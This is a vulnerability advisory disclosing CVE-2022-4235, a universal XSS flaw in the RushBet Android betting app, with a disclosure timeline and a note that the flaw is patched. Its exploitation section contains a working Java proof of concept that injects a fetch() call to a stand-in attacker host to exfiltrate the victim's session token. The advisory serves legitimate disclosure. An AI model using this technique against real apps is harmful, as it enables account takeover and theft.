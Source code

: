 ```yaml
---
slug: advisories/miller/
title: RushBet 2022.23.1-b490616d - Universal XSS
authors: Carlos Bello
writer: cbello
codename: miller
product: RushBet 2022.23.1-b490616d (UXSS)
date: 2023-01-10 09:00 COT
cveid: CVE-2022-4235
severity: 6.0
description: RushBet 2022.23.1-b490616d    -    Universal XSS (UXSS)
keywords: Fluid Attacks, Security, Vulnerabilities, Rushbet, UXSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | RushBet 2022.23.1-b490616d - UXSS                                  |
| **Code name**         | [Miller](https://en.wikipedia.org/wiki/Mac_Miller)                 |
| **Product**           | RushBet                                                            |
| **Affected versions** | Version 2022.23.1-b490616d                                         |
| **State**             | Public                                                             |
| **Release date**      | 2023-01-10                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Universal XSS                                                                                                               |
| **Rule**              | [429. Universal XSS (UXSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/429)                                     |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:N                                                                                |
| **CVSSv3 Base Score** | 6.0                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-4235](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-4235)                                               |

## Description

RushBet version 2022.23.1-b490616d allows a remote attacker to steal
customer accounts via use of a malicious application. This is possible
because the application exposes an activity and does not properly validate
the data it receives.

## Vulnerability

This vulnerability occurs because the application exposes an activity
and does not properly validate the data it receives.

## Exploitation

To exploit this vulnerability, the victim must have a malicious
application installed with activity like the following:

### MainActivity.java

```java
package com.example.badapp;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Handler;
import android.os.Bundle;
import android.net.Uri;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.rush.co.rb","com.sugarhouse.casino.MainActivity");
        intent.setData(Uri.parse("https://rushbet.co/"));
        startActivity(intent);

        new Handler().postDelayed(() -> {
            intent.setAction("Action.EvaluateScript");
            intent.putExtra("KeyScript","fetch('https://attacker.com/sessionID/'+JSON.parse(sessionStorage.getItem('session-COP')).value);");
            startActivity(intent);
        }, 30000);
    }
}
```

Thus, when the victim opens the malicious app, the exploit will
be executed, thus hacking his account.

## Evidence of exploitation

<video width="835" height="505" controls>
    <source src="https://rb.gy/mlmsrv"
    type="video/mp4">
    <p>POC-Account-Takeover-Rushbet</p>
</video>

![PII-Account-Takeover-Rushbet](https://user-images.githubusercontent.com/51862990/204819582-d5f0b34a-0ec4-4413-ac40-bc06affd3ed1.png)

## Our security policy

We have reserved the CVE-2022-4235 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: RushBet 2022.23.1-b490616d

* Operating System: GNU/Linux

## Mitigation

An updated version of RushBet is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.rushbet.co>

## Timeline

<time-lapse
  discovered="2022-11-29"
  contacted="2022-11-30"
  replied="2022-12-03"
  confirmed="2022-12-03"
  patched="2022-12-14"
  disclosure="2023-01-10">
</time-lapse>
